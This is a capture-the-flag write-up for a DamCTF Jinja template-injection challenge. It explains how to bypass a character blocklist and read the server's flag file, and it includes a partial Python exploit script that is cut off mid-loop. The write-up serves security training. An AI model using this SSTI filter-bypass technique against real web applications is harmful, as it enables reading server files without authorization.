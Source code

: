 -  `https://super-secure-translation-implementation.chals.damctf.xyz/limit.py`: limit the length of the payload

```
import time

from rctf import golf


def get_golf_limit() -> int:
    rctf_host = "https://damctf.xyz/"
    challenge_id = "super-secure-translation-implementation"
    ctf_start = 1636156800
    limit_function = lambda x: (x * 2) + 147

    limit = golf.calculate_limit(rctf_host, challenge_id, ctf_start, limit_function)
    return limit


def is_within_bounds(payload: str) -> bool:

    return len(payload) <= get_golf_limit()
```

## SSTI Attack

If we provide a `{ {6*6} }` as payload, the page contains `36`, which proves we can perform an SSTI attack.

The idea is to open the `flag/` directory and read it's content with `{ {(open("flag").read())|e} }`, which evaluates the content of the statement with the custom Jinja  filter `e` and print it's content in the page.
Several of the chars of the attack however are blocked.

The idea is to compose `open("/flag").read()` by string concatenation. If a char is not allowed we can encode its decimal representation as a sum of numbers composed by digits `1,4,6` and convert it to the ASCII char with the custom filter `ch`.

Example:
`p = chr(112) => (4*4*6+6+6+4)|ch)`

After encoding each char we can join them with `+`, but since it become a space, we use the URL encoded representation `%2B`.



The final attack:

```
#!/usr/bin/env python3
# aMan

import requests
import re


def decompose_number(num):
    # decompose a number as sum of 1,4 and 6.
    # I then realized that 111 or 64 were allowed, by I already prepared this script which was working
    r = num
    sum = []
    while r != 0:
        for n0 in ['1', '4', '6', '4*6', '6*6', '4*4*4', '4*4*6', '4*6*6', '6*6*6'][::-1]:
            n = eval(n0)
            if r - n >= 0:
                sum.append(n0)
                r = r-n
```